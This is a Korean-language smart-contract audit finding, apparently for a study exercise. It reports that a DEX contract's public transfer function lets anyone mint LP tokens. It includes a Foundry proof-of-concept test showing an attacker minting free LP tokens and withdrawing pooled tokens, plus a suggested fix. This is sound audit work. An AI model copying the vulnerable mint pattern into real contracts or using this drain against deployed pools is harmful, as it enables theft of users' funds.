 # Problem - Visibility

## 김영운, 김지우, 구민재

### 설명

문제 발생 - transfer function

```solidity
function transfer(address to, uint256 lpAmount) public override(ERC20, IDex) returns (bool) { //visibility
        _mint(to, lpAmount);
        return true;
}
```

- transfer 함수의 visibility가 public으로 설정되어 있어 누구나 호출할 수 있음
- _mint를 누구나할 수 있어 totalSupply(LP token양)를 조작할 수 있음

테스트

```solidity

contract CustomERC20 is ERC20 {
    constructor(string memory tokenName) ERC20(tokenName, tokenName) {
        _mint(msg.sender, 1000 ether);
    }

    function mint(uint amount) external {
        _mint(msg.sender,amount);
    }
}

contract DexTest is Test {
    Dex public dex;
    CustomERC20 tokenX;
    CustomERC20 tokenY;

    address player1 = address(0x1234);
    address player2 = address(0x1235);
    address player3 = address(0x1236);
    address player4 = address(0x1237);

    function setUp() public {
        tokenX = new CustomERC20("XXX");
        tokenY = new CustomERC20("YYY");

        dex = new Dex(address(tokenX), address(tokenY));

        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);

        vm.startPrank(player1);
        tokenX.mint(10000 ether);
        tokenY.mint(10000 ether);
        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);
        dex.addLiquidity(1000 ether, 1000 ether, 0); //lp = 1000
        vm.stopPrank();

        vm.startPrank(player2);
        tokenX.mint(10000 ether);
        tokenY.mint(10000 ether);
        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);
        dex.addLiquidity(1000 ether, 1000 ether, 0); //lp = 1000
        vm.stopPrank();

    }

    function testTransfer() external {
        vm.startPrank(player3);
        uint before = dex.balanceOf(player3);
        emit log_named_uint("before",before);
        bool t = dex.transfer(player3, 100 ether);
        uint a = dex.balanceOf(player3);
        emit log_named_uint("after",a);

        emit log_named_uint("before x:", tokenX.balanceOf(player3));
        emit log_named_uint("before y:", tokenY.balanceOf(player3));
        dex.removeLiquidity(dex.balanceOf(player3), 0,0);
        emit log_named_uint("after  x:", tokenX.balanceOf(player3));
        emit log_named_uint("after  y:", tokenY.balanceOf(player3));
        vm.stopPrank();
    }
}
```
<img width="432" alt="스크린샷 2023-03-26 오후 8 37 22" src="https://user-images.githubusercontent.com/127647051/227773104-9f0d829b-2cbd-4c8a-b556-4f3b75a8135c.png">


- player1, player2가 pool에 liquidity를 공급하였을때, player3가 100 ether를 mint하여 해당 LP token만큼 removeLiquidity할 수 있음

### 파급력

- Critical → 공격자는 mint 함수를 통해 LP token을 발행하여, liquidity를 pool에 공급하지 않더라도 pool에 있는 토큰을 모두 remove할 수 있음

### 해결방안

- transfer 함수의 visibility를 public → internal로 변경하기 또는 onlyOwner만 호출할 수 있도록 변경
